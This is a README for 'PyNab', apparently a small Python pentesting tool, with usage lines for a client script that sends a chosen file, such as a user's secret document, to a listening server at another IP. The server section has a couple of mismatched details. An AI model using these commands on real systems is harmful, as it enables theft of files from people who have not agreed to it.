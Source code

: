 # PyNab
##### A pentesting tool for easily stealing files
_Made with <3 By Dan Goodman, Signed 12/31/17_

_Works as a nifty file sharing tool too!_

---

Running this assumes you already know where the file is, this should be used through a shell after all. This is to make it easier than worrying about making sure you can SCP to a system.

### Client:

Run like:

    clientNab.py IP PORT FILELOCATION

replacing `IP`, `PORT`, and `FILELOCATION` with the respective values

Example use:

    clientNab.py 192.168.1.30 5555 /Users/{some username}/Documents/SuperSecretStuff.docx

This will drop that file over to the root folder of where the `serverNab.py` file is running on the server.


### Server:

Run like:

    serverNab.py IP PORT

replacing `IP`, `PORT`, and `FILELOCATION` with the respective values

Example use:

    serverNab.py 129.168.1.45 5555

Make sure to run this before the client!